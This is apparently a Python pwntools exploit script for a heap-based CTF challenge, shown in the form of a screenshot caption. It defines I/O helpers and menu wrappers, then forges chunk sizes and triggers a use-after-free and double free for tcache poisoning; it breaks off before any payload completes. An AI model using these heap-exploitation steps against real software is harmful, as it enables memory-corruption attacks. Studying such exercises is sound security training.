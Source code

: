 ```bash

context.os = 'linux'
context.arch = 'amd64'
# context.arch = 'i386'
context.log_level = "debug"

s       = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data,num           :u32(p.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(p.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']

def dbg():
    gdb.attach(proc.pidof(p)[0])
    pause()


def add(size,content):
    p.sendlineafter("Your choice : ",str(1))
    p.sendlineafter("Size: ",str(size))
    p.sendafter("Content: ",content)

def delete(index):
    p.sendlineafter("Your choice : ",str(2))
    p.sendlineafter("Index: ",str(index))

def uaf(index):
    p.sendlineafter("Your choice : ",str(9))
    p.sendlineafter("Index: ",str(index))

def pwn():
    add(0x100,'a')#prev
    add(0x100,'b')#victim

    add(0x80,'c')#second tcache poisoning.after the first tcache poisoning,the 0x100 tcache chain will bad
    #so we need to prepare 0x80 tcache chain
    payload=p64(0xdeadbeef)*14+p64(0x180)+p64(0x90)
    add(0x100,payload)#size and prev_size of unsigned bin to be forged

    for i in range(6):
        add(0x100,'a')

    for i in range(3,10):
        delete(i) 

    uaf(1)

    delete(0)

    add(0x100,'a')#take one from tcache bin

    delete(1)#double free
```